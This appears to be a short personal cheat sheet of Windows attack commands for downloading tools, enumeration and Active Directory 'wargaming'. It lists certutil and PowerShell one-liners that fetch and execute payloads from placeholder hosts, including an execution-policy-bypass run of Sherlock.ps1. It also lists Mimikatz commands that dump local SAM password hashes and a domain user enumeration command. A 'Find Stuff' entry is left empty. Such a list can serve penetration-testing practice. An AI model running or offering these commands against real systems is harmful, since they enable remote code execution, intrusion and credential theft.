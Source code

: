 # Download stuff

1. certutil -urlcache -split -f http://source.ip/payload.exe payload.exe
2. Download the file: 
Invoke-WebRequest -Uri "url" -OutFile "dest"
3. Download and execute: 
powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('ip/src')"

# Find Stuff

* cmd: dir Backups /s c:\ /p 
* ps:

# Enumeration

powershell.exe -exec bypass -C "IEX(New-Object System.Net.WebClient).DownloadString('http://xxx.xxx.xxx.xxx/Sherlock.ps1');Find-AllVulns"


# AD Wargaming

1.Find AD: nslookup

get local password hashes with Mimikatz

privilege::debug
token::elevate
lsadump::sam c:\tmp\sam.hiv c:\tmp\sec.hiv

2. getting Domain users

net user /domain

